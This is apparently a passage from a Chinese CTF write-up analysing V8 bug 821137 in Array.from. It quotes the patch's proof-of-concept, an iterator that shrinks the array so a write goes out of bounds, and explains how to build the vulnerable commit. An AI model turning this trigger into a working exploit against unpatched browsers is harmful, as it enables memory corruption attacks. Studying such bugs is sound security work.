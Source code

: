 ```
+// Array.from does not lead to out of bounds writes.
+let oobArray = [];
+let maxSize = 1028 * 8;
+Array.from.call(function() `{` return oobArray `}`, `{`[Symbol.iterator] : _ =&gt; (
+  `{`
+    counter : 0,
+    next() `{`
+      let result = this.counter++;
+      if (this.counter &gt; maxSize) `{`
+        oobArray.length = 0;
+        return `{`done: true`}`;
+      `}` else `{`
+        return `{`value: result, done: false`}`;
+      `}`
+    `}`
+  `}`
+) `}`);
+assertEquals(oobArray.length, maxSize);
+
+// iterator reset the length to 0 just before returning done, so this will crash
+// if the backing store was not resized correctly.
+oobArray[oobArray.length - 1] = 0x41414141;
```

这题并不是patch引入漏洞，而是patch修复了漏洞，这是一个真实存在于v8中的历史漏洞，并且从patch中可以知道其代号为`821137`，我们在github上搜索一下代号找到一个commit，点击parent，获得其存在漏洞的那个commit为`1dab065bb4025bdd663ba12e2e976c34c3fa6599`，于是使用`git checkout 1dab065bb4025bdd663ba12e2e976c34c3fa6599`，然后编译v8即可。<br>
从patch中可以看到，已经有POC了，我们来分析一下POC的原理。<br>
首先，漏洞出在`GenerateSetLength`函数，那么我们查找一下该函数的上层调用，发现其在

```
// ES #sec-array.from
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler)
```

函数中被调用，处`bootstrapper.cc`中可以知道该函数是`Array.from`的具体实现

```
SimpleInstallFunction(array_function, "from", Builtins::kArrayFrom, 1,
                          false);
```

该函数的作用是通过一个迭代器为数组元素赋值，用法如下

```
let arr = [6,6,6,6];
Array.from.call(function() `{` return arr `}`, `{`[Symbol.iterator] : _ =&gt; (
  `{`
    counter : 0,
    next() `{`
      let result = this.counter++;
      if (this.counter &gt; 10) `{`
        return `{`done: true`}`;
      `}` else `{`
        return `{`value: result, done: false`}`;
      `}`
    `}`
  `}`
) `}`);
print(arr);
```
